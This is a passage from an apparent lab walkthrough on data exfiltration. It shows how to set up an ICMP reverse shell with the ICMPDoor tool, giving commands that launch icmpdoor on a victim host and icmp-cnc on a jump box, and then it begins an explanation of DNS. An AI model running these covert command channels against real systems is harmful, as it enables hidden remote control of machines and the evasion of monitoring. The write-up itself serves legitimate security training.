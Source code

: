 ### 6.3 ICMP Communication

We can also use the [ICMPDoor](https://github.com/krabelize/icmpdoor) tool, an open-source reverse-shell written in Python3 and [scapy](https://scapy.net/), which, again, uses the same concept as we did before, that is, exploiting the Data section of the ICMP packet.

The only difference with what we did before with Metasploit's `icmp_exfil` module, is that instead of sending credentials within the ICMP packet's Data section, this time we will be sending commands that we want to be executed on the target machine.

![ICMPDoor tool](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/c4c0b7beeaa41fd5b4a4f4cbe1ded82e.png)

1. While logged into `icmp.thm.com` machine, we first need to execute the `icmpdoor` binary. We also need to pass the interface to communicate over (`icmp-host`'s interface) along with the destination IP address (`jump-box`'s IP address):

    ```shell
    # passing icmp-host's machine interface along with jumpbox's IP
    thm@icmp-host:~$ sudo icmpdoor -i eth0 -d 192.168.0.133
    ```

2. Next, we need to execute the `icmp-cnc` binary in order to communicate with the victim, `icmp-host`. Once the communication channel over ICMP is established, we are ready to send commands and receive their outputs:

    ```shell
    # passing jumpbox's machine interface along with icmp-host's IP 
    sudo icmp-cnc -i eth1 -d 192.168.0.121
    ```

    ![icmp-flag](icmp-flag.jpg)

To confim that all communications go through ICMP, we can capture the network traffic using `tcpdump`:

![tcpdump](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/b7df6f586e47769bf2addbee68d69cdc.png)

## 7. DNS Data Exfiltration

Let's start by reviewing what a DNS actually is and how it works.

The **Domain Name System (DNS)** is a hierchical system that translates human-readable domain names, e.g. `www.example.com`, into numerical IP addresses, e.g. `10.10.10.10`. This allows computers to locate and communicate with web servers and other internet resources. 

Domain names need to be registered through accredited domain registrars. Once registered, the domain owner has exclusive rights to use that domain for a specific period. 

![DNS server diagram](dns-server-diagram.png)

